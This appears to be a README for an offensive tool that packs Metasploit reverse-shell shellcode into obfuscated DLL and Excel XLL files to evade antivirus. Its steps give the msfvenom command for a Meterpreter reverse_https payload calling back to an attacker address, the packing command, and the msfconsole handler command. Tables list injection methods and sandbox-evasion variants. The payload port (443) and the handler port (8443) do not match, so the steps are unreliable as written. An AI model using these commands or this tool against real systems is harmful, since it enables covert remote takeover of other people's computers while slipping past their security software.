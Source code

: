 ### C++ shellcode launcher

A collection of DLL wrappers using various shellcode injection and obfuscation techniques. Based on the "charlotte" tool and research mentioned in external references.

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Injection type               |Code invocation              |
|----------------|-------------------------------|-----------------------------|-----------------------------|
|xor             |XOR                            |Local | VirtualAlloc, CreateThread)   |
|xor1            |XOR, sandbox evasion           |Remote | VirtualAllocEx, CreateRemoteThread)|
|xor2            |XOR, sandbox evasion           |Local  | hHeapAlloc, hCreateThread)    |
|shift           |Cezar, const char              |Local  | VirtualAlloc, CreateThread   |

Outputs (`-o` parameter):

|Value          |Details                        |
|---------------|-------------------------------|
|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|
|payload        |save encrypted payload only|

### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)